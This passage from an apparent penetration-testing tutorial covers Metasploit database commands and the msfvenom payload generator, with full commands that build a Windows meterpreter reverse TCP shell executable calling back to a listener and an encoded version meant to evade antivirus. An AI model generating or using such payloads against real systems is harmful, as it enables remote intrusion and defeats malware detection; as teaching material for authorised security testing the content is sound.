 - **Finding Vulnerabilities:**
  Search for vulnerabilities in the database:

  ```plaintext
  msf6 > vulns -h
  ```

- **Storing Loot:**
  Save collected data for future reference:

  ```plaintext
  msf6 > db_loot
  ```

## Msfvenom

`msfvenom` is a powerful standalone tool for generating and encoding payloads used in exploits. It combines the functionalities of `msfpayload` and `msfencode` into a single utility, making it easier to create custom payloads for various attack scenarios.

### Core Concepts

1. **Payloads:**
   These are the code that runs on the target system after exploitation. `msfvenom` allows you to generate payloads for various platforms and architectures.

2. **Encoders:**
   Encoders are used to encode payloads to avoid detection by antivirus software. `msfvenom` supports multiple encoders to help obfuscate your payloads.

3. **Formats:**
   Payloads can be output in various formats, such as executables, scripts, and shellcode. This flexibility allows you to use `msfvenom` payloads in different attack vectors.

### Basic Usage

The basic syntax for using `msfvenom` is:

```plaintext
msfvenom -p PAYLOAD OPTIONS -e ENCODER -f FORMAT -o OUTPUT_FILE
```

### Examples

1. **Generating a Reverse TCP Shell:**

   Generate a Windows reverse TCP shell payload:

   ```plaintext
   msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.10 LPORT=4444 -f exe -o shell.exe
   ```

2. **Encoding a Payload:**

   Encode the payload with the `shikata_ga_nai` encoder:

   ```plaintext
   msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.10 LPORT=4444 -e x86/shikata_ga_nai -i 5 -f exe -o encoded_shell.exe
   ```
